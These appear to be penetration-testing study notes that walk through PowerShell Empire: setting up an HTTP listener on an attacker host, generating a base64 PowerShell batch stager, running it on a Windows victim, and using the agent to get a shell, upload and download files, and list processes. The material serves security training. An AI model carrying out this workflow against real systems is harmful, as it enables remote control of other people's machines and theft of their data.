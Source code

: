 	To begin an Empire session, we will first enter the listener context: (Empire) > listeners
	Then we print the available listeners: (Empire: listeners) > uselistener [TAB] [TAB] 
	Once we have decided on which listener to use (for example the http listener), we select it: (Empire: listeners) > uselistener http
	We then run the info command to shop the listener information and syntax: (Empire: listeners/http) > info 
	Important listener options to set:
		Host
		Port
		DefaultDelay
		DefaultJitter
		KillDate
	Example of setting an option: 
		(Empire: listeners/http) > set Host 10.11.0.4
	Once the options are set, we can start the listener with the execute command: 
		(Empire: listeners/http) > execute
	We can go back to the main menu with the command back: 
		(Empire: listeners/http) > back
	We can then list all available stagers with the command: 
		(Empire: listeners) > usestager [TAB] [TAB]
	To select the desired stager: 
		(Empire: listeners) > usestager windows/launcher_bat
	We can review the stager options with the info command: 
		(Empire: stager/windows/launcher_bat) > info
	Important stager options to set:
		Listener
	We can set the listener for our stager with the set command: 
		(Empire: stager/windows/launcher_bat) > set Listener http
	Finally, we create the stager with the execute command: 
		(Empire: stager/windows/launcher_bat) > execute
	We can have a look at the generated stager opening the file /tmp/launcher.bat:
		less /tmp/launcher.bat
	The stager is a base64 encoded PowerShell command string. The first stage payload will connect to the listener and fetch the rest of the Empire Agent code
The Empire Agent:
	With the listener running and the stager prepared, we now need to deploy the agent on the victim. The agent is the final payload retrieved by the stager and will alows us to execute commands and interact with the victim system
	The stager deletes itself and exits once it finishes execution
	Once the agent is operational on the target, it will established an AES ecrypted communication channel with the listener, using the data portion of the HTTP GET and POST requests
	To deploy our agent we need to copy the launche.bat file to the target Windows system and execute from a command prompt
	Once the agent is executed, we go back to the Empire console on our attacker machine and we see that Empire has received the agent call.
	We can display all active agents with the agents command:
		(Empire: stager/windows/launcher_bat) > agents
	Now we can interact with the desired agent using the interact command and the agent name (63WFMDBUS in the case of our example):
		(Empire: stager/windows/launcher_bat) > interact 63WFMDBUS
	Let"s use the agent to run sysinfo on the victim:
		(Empire: 63WFMDBUS) > sysinfo
	From within the agent, the help command shows all available commands:
		(Empire: 63WFMDBUS) > help
	Useful commands are:
		upload
		download
		exit
		shell (to open a command prompt)
		spawn (to create an additional agent on the same host)
	Like metasploit, Empire allows us to migrate the payload to a different process
	We first list all running processes with ps
		(Empire: 63WFMDBUS) > ps